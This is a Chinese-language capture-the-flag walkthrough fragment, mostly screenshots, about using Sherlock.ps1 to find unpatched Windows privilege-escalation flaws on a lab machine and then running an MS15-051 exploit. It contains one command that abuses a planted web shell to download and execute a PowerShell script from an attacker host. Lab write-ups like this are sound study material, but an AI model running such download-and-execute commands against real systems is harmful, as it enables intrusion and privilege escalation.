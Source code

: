   

  

使用 Powershell Empire-Sherlock.ps1

  

  

Sherlock.ps1 脚本用于快速查找缺少的软件补丁，发现并解决本地特权升级漏洞...

使用 sherlock.ps1 查找漏洞...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJT5mq9icpu1Jj3l4zeU89YOATJN2lEukGXlqLyon3BxaRcWibflLuiab69w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTU44tvP9M9LwHOSun8UAwzVFibZpldzUbwlDQ4sLqfgnqKTndumhrU1w/640?wx_fmt=png)

需要使用 **Find-AllVulns** 编辑文件，在文件末尾添加即可...

```
/root/.local/share/Trash/files/Sherlock/Sherlock.ps1
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTSUfZvSBic1lBbDX1fBpZsHFwia8KCtNBFRshjTGJmZzUiba7d7p7POmXA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTicmOLC3oPlXQibAjpb1yRCF1y3W9q0W21wNnMgPDMhicibzicsbAS7KXvibQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTGMlicjLFF4hib24vk1eZUcLavQzs1A7NibkicKBUvqxygEQe813qco1Gtg/640?wx_fmt=png)

```
http://10.10.10.9/dayuxiyou.php?dayu=echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.16:8000/Sherlock.ps1') | powershell -noprofile -
```

Appears Vulnerable 就是存在漏洞... 可以利用... 这边找找

在扫描出来的结果中，只发现了 ms10-092、ms15-051、ms16-032 漏洞可以利用...

```
[Sherlock.ps1脚本发现利用exe链接](https://github.com/SecWiki/windows-kernel-exploits/)
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTB4RNKd8ADpKJ5KnDAM3Bl59rJJcbeic4eOD4iaRjG9wBQbzaL3EPPPug/640?wx_fmt=png)

下载地址上面已经给了...

利用 ms15-051x64.exe...

  

  

成功获得 user.txt

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTGwSMibV5ic3zpdUKVziaEuwoicYibTkrPiaut7tEtITjxarzkTTgKRsLFERA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM4T7BsB417rZ9BlLTfyKJTH2I9QowjHxuT6LTG7PPKTfjaO2AzK6JGtd9vZkmUoqic2sUFU9rOeeA/640?wx_fmt=png)

  